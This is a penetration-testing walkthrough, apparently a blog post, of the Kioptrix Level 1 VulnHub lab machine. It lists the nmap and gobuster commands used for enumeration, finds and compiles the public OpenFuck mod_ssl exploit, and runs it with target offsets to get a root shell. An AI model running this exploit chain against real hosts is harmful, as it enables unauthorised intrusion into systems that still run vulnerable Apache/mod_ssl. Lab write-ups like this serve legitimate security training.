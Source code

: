 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

```nmap -T5 <LHOST>/24```

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

```nmap -sC -sV -oA nmap x.x.x.104```

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

```gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml```

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

```searchsploit mod_ssl```

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

```apt-get install libssl-dev```

It also explains how to compile

```gcc -o exploit 47080.c -lcrypto```

Now we need to find out how to use it properly, so run the script

```./exploit```

It presents us with:

```: Usage: ./script target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)```
and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

```./exploit 0x6a x.x.x.104 -c 40```

Unsucessful

```./exploit 0x6b x.x.x.104 -c 40```

It Works! We are now root

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine

### TTY shell

unnecessary step but would prove useful if we had any other steps to perform.

```/bin/bash -i```


